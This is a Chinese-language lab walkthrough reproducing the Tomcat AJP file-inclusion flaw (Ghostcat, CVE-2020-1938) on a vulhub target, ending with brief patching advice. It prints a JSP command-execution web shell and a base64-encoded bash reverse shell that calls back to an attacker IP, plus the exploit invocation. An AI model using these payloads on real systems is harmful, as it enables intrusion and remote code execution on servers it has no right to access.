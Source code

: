 # Aapache Tomcat AJP-文件包含漏洞（CVE-2020-1938）

### 0x00 前言

Ghostcat（幽灵猫） 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

影响版本：

```
Apache Tomcat 6
Apache Tomcat 7 < 7.0.100
Apache Tomcat 8 < 8.5.51
Apache Tomcat 9 < 9.0.31
```

### 0x01 环境搭建

这里使用vulhub搭建靶场环境`tomcat/CVE-2020-1938`

![image-20230410153328550](https://user-images.githubusercontent.com/122008722/230865459-0e9b51dc-c470-46b7-8319-1e36dcefebdf.png)

### 0x02 复现步骤

1、准备POC`https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/blob/master/CNVD-2020-10487-Tomcat-Ajp-lfi.py`

2、POC需要python2环境启动

```shell
python2 tomcat_AJP_Arbitrary_file_read_include.py 目标IP或HOST -p 目标端口 -f 文件路径
```

![image-20230410160311933](https://user-images.githubusercontent.com/122008722/230865483-2457df82-565d-4ed7-8db1-87f71d11ab0f.png)

3、由于靶场没有文件上传漏洞利用点，我们手动为靶场上传shell文件，内容如下：

```jsp
# 有回显版本
<%
java.io.InputStream in = Runtime.getRuntime().exec("需要执行的命令").getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
%>


# 无回显版本
<%
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}")
%>
```

```shell
docker cp shell.txt 29b32:/usr/local/tomcat/webapps/ROOT/
```

![image-20230410161431354](https://user-images.githubusercontent.com/122008722/230865520-3140c91b-cd10-4849-8efd-a6036f0656bc.png)

4、利用脚本进行反弹shell

修改poc，添加后缀`.jsp`

![image-20230410161748863](https://user-images.githubusercontent.com/122008722/230865535-9e7ae3ef-7e07-476a-b4f5-97dce15f372a.png)

```shell
python2 tomcat_AJP_Arbitrary_file_read_include.py 192.168.12.130 -p 8009 -f /WEB-INF/shell.txt
```

![image-20230410163038478](https://user-images.githubusercontent.com/122008722/230865592-b3857f4d-3bca-4d94-8218-73a0a5c126f1.png)

### 0x03 修复建议

1、关闭AJP 协议的端口

2、更新官方最新补丁